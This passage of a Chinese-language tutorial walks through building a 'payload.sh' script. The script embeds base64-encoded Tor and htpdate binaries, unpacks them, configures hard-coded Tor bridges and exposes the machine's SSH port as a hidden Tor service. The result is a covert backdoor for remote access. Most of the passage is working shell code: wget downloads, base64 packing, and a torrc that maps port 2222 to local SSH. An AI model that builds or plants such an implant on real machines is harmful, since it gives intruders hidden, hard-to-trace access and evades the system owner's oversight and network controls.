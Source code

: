 ```
mkdir ~/payload
cp tor torrc ~/payload
cd ~/payload

```

还有一个重要的组件要添加到安装文件当中。因为Tor的运行要求系统有一个准确的时间。一个方法是，从一些知名网站使用的HTTP头解决。当你发送一个HTTP请求到Web服务器时，一些Web服务器会在它的响应中添加上当前时间。我们可以把系统时间调整到这个时间（需要root权限）。这一切都可以通过下面的perl脚本搞定：

```
wget http://www.rkeene.org/devel/htp/mirror/archive/perl/htp-0.9.3.tar.gz
tar xzvf htp-0.9.3.tar.gz
cp htp-0.9.3/sbin/htpdate-light .

```

现在运行`sudo ./htpdate-light`跟Google HTTP服务器进行时间同步。

接着对文件进行压缩以减少安装文件的体积：

```
tar cvzf binaries.tar.gz tor htpdate-light

```

现在我们创建一个安装脚本。在”payload.sh“脚本上把tar文件的base64编码保存到”torbin“变量。

```
echo '#!/bin/sh' > payload.sh
echo -n 'torbin=' >> payload.sh
cat binaries.tar.gz | base64 -w 0 >> payload.sh

```

然后用你喜欢的编辑器打开payload.sh，把下面的指令追加进去：

```
echo $torbin | base64 -d > binaries.tar.gz
tar xzvf binaries.tar.gz
rm binaries.tar.gz
chmod +x tor
echo '
Bridge 176.182.30.145:443 DE54B6962AB7ECBB88E8BC58BEA94B6573267515
Bridge 37.59.47.27:8001 E0671CF9CB593F27CD389CD4DD819BF9448EA834
Bridge 192.36.27.122:55626 35E199EFB98CDC9D3D519EA4F765C021A216F589
UseBridges 1
SocksPort 9050
SocksListenAddress 127.0.0.1
HiddenServiceDir ./.hs/
HiddenServicePort 2222 127.0.0.1:22
' > ./torrc
perl ./htpdate-light google.com
./tor -f ./torrc

```

我不建议在当前目录运行”payload.sh“。因为它会覆盖你的其它二进制文件。如果想测试的话把它拷贝到/tmp/目录下运行。
